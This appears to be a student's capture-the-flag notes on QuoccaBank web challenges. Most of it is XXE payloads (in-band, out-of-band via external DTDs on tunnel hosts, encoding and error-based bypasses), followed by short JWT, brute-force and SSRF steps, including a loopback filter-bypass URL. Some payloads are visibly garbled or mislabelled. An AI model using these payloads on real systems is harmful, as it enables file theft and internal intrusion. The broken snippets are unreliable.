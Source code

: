 ## v1.feedifier.quoccabank.com

Used pastebin raw paste - https://pastebin.com/RyQepthP

In-band basic xxe payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM 'file:///flag_64b3ebd165d9508735bc8a29ddebb285'> ]>
<rss> <channel>
<item> <description>1</description> <link>1</link> <title>&xxe;</title>
</item> </channel> </rss>
```

## v2.feedifier.quoccabank.com (TBD) 
Used pastebin + locally hosted url (since I wanted http)

Out-band xxe payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
  <!ENTITY % dtd SYSTEM "http://strong-gecko-39.loca.lt/feedifierv2.txt">
  %dtd;
]>
<rss>
<channel>
	<item>
		<description>1</description>
		<link> 1</link>
		<title>&inject;</title>
	</item>
</channel>
</rss>
```

And at http://strong-gecko-39.loca.lt/feedifierv2.txt
```xml
<!ENTITY inject SYSTEM "file:///flag_0054c423ef634e00b4a586f4142e7522">
```


# v3.feedifier.quoccabank.com
1. Here, the sanitiser was checking keywords in my secondary file. (probably a regex matching). 
So, to bypass this, you can try using hex encodings (Eg; f is 0x66)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://warm-panther-32.loca.lt/payload3.txt">
  %dtd;
  %comb;
]>
<rss>
<channel>
	<item>
		<description>1;</description>
		<link> 1;</link>
		<title>&inject;</title>
	</item>
</channel>
</rss>
```xml

At http://strong-gecko-39.loca.lt/feedifierv2.txt:
```xml
<!ENTITY % comb "<!ENTITY inject SYSTEM '&#x66;ile:///&#x66;lag_d9cd6fcd14d4597712c583d5fc1e5362'>">
```


2. Alternative method: Error based XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://warm-panther-32.loca.lt/payload3.txt">
  %dtd;
]>
<rss>
<channel>
	<item>
		<description>1</description>
		<link>1</link>
		<title>&dtd;</title>
	</item>
</channel>
</rss>
```


And at http://warm-panther-32.loca.lt/payload3.txt:
```xml
<!ENTITY % first "fi">
<!ENTITY % second "le:////fl">
<!ENTITY % third "ag_d9cd6fcd14d4597712c583d5fc1e5362">

<!ENTITY % dummy1 "<!ENTITY &#x25; trick SYSTEM '/%first%second%third;'>">

%dummy1         --->  resolved into <!ENTITY % trick SYSTEM 'file:///flag_{...}'>

<!ENTITY % dummy2 "<!ENTITY &#x25; error SYSTEM '/%trick;'>">

%dummy2         --> puts an invalid flag/flag/{...} file

%error 
```

# v3.feedifier.quoccabank.com
1. Overwrite a dtd defintion from docbook. Note: only the first definition is used and rest are ignored.
You need to find a paramterised definition which is also executed in the docbook

Error based extraction:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % importDocbook SYSTEM "file:///usr/share/sgml/docbook/dtd/4.5/docbookx.dtd">
  <!ENTITY % ISOamso '<!ENTITY &#37; flag SYSTEM "file:///flag{...}">'>
  <!ENTITY &#37; win "<!ENTITY &#38;#37; newvar SYSTEM "flag;">'>

  %importDocbook;
  %win;
]>
<rss>
<channel>
	<item>
		<description>1</description>
		<link>1</link>
		<title>&dtd;</title>
	</item>
</channel>
</rss>
```

# letters.quoccabank.com (TBD)

# signin (TBD)

# wallet.quoccabank.com

# notes.quoccabank.com
Access Control Vuln:  

1. Cookie was a JWT token.  
2. Changed username to admin, and modified expiry time to get flag

# files.quoccabank.com
Flag 1: Brute forcing the pins in `files.quoccabank.com/admin`  

Flag 2: Logging in as username=admin, password=0 (Got clue from sales.quoccabank)

Flag 3: Escalating privilege using /staff/wfh 

Flag 4: Why isnt my JWTtoken with flask key not working??


# ctfproxy2.quoccabank.com
Robots.txt shows a /flag path

In /flag path's source it is mentioned that "adam said we can't show our super secret flag to external users"

So perhaps there is a way to use the server to call /flag instead. (SSRF)

Navigate to ctfproxy2.quoccabank.com/me, I see potential to enter an internal link.
There is some WAF code in the src:
```js
my billion-dollar WAF machine learning algorithm:

    url = request.form.get("avatar", "")
    if not url.endswith(".png"):
      flash("Avatar must be png file!", "danger")
      return redirect(url_for("me"))
    try:
      blacklist = ['?', '127.', 'localhost', '0/', '::', '[', ']']
      for w in blacklist:
        if w in url:
          raise Exception("'%s' is dangerous" % w)
      try:
        domain = re.match(r"^https?://([a-zA-Z0-9-_.]+)", url).group(1)
      except IndexError:
        raise Exception("invalid url")
      ip = socket.gethostbyname(domain)
      if ipaddress.ip_address(unicode(ip)).is_private:
        raise Exception("it is forbidden to access internal server " + ip)
```
More:

https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery

http://www.google.com@2130706433/flag#1.png